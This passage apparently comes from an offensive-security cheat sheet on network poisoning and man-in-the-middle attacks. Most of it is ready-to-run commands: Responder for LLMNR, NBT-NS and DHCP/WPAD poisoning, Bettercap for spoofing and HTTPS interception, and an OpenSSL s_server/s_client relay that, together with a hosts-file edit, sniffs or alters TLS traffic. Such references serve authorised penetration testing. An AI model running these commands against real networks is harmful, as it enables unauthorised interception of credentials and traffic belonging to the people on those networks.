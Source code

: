 ## Responder

```powershell
responder -I eth0 -A # see NBT-NS, BROWSER, LLMNR requests without responding.
responder.py -I eth0 -wrf
```

Alternatively you can use the [Windows version](https://github.com/lgandx/Responder-Windows)

## MITM

* WSUS poisoning
* ARP poisoning
* DHCP poisoning: `responder --interface "eth0" --DHCP --wpad`

### Bettercap

```powershell
bettercap -X --proxy --proxy-https -T <target IP>
# better cap in spoofing, discovery, sniffer
# intercepting http and https requests,
# targetting specific IP only
```

### SSL MITM with OpenSSL

This code snippet allows you to sniff/modify SSL traffic if there is a MITM vulnerability using only openssl.
If you can modify `/etc/hosts` of the client:

```powershell
sudo echo "[OPENSSL SERVER ADDRESS] [domain.of.server.to.mitm]" >> /etc/hosts  # On client host
```

On our MITM server, if the client accepts self signed certificates (you can use a legit certificate if you have the private key of the legit server):

```powershell
openssl req -subj '/CN=[domain.of.server.to.mitm]' -batch -new -x509 -days 365 -nodes -out server.pem -keyout server.pem
```

On our MITM server, we setup our infra:

```powershell
mkfifo response
sudo openssl s_server -cert server.pem -accept [INTERFACE TO LISTEN TO]:[PORT] -quiet < response | tee | openssl s_client -quiet -servername [domain.of.server.to.mitm] -connect[IP of server to MITM]:[PORT] | tee | cat > response
```

In this example, traffic is only displayed with `tee` but we could modify it using `sed` for example.

## References

* [Pwning the Domain: Credentialess/Username - hadess - February 7, 2024](https://hadess.io/pwning-the-domain-credentialess-username/)

